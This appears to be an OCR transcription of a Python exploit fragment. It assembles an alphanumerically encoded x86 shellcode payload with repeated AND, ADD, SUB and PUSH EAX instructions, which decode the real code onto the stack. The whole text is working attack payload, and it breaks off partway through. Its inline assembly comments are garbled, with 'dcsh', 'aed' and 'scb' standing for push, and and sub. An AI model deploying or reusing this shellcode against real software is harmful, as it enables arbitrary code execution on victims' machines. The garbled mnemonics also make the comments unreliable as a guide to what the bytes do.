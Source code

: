 ```python
shellcode += "\x05\x63\x14\x61\x61" ## add  eax, 0x61611463
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x02\x50\x51\x36" ## add  eax, 0x36515002
shellcode += "\x05\x01\x40\x41\x35" ## add  eax, 0x35414001
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x45\x76\x32\x32" ## add  eax, 0x32327645
shellcode += "\x05\x34\x65\x21\x21" ## add  eax, 0x21216534
shellcode += "\x05\x34\x53\x22\x22" ## add  eax, 0x22225334
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x56\x14\x32" ## add  eax, 0x32145617
shellcode += "\x05\x17\x55\x14\x31" ## add  eax, 0x31145517
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x47\x25\x71\x52" ## add  eax, 0x52712547
shellcode += "\x05\x46\x25\x70\x52" ## add  eax, 0x52702546
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x53\x77\x37\x35" ## add  eax, 0x35377753
shellcode += "\x05\x43\x76\x36\x24" ## add  eax, 0x24367643
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x77\x12\x35\x13" ## add  eax, 0x13351277
shellcode += "\x05\x66\x11\x35\x03" ## add  eax, 0x03351166
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x42\x44\x76\x13" ## add  eax, 0x13764442
shellcode += "\x05\x31\x33\x65\x23" ## add  eax, 0x23653331
shellcode += "\x05\x32\x33\x54\x12" ## add  eax, 0x12543332
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x63\x77\x47\x24" ## add  eax, 0x24477763
shellcode += "\x05\x63\x66\x46\x13" ## add  eax, 0x13466663
shellcode += "\x05\x42\x55\x35\x23" ## add  eax, 0x23355542
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x62\x37\x64" ## add  eax, 0x64376211
shellcode += "\x05\x21\x51\x36\x63" ## add  eax, 0x63365121
shellcode += "\x05\x11\x32\x35\x43" ## add  eax, 0x43353211
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x62\x67\x26\x66" ## add  eax, 0x66266762
shellcode += "\x05\x52\x56\x15\x55" ## add  eax, 0x55155652
shellcode += "\x05\x42\x35\x24\x36" ## add  eax, 0x36243542
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
```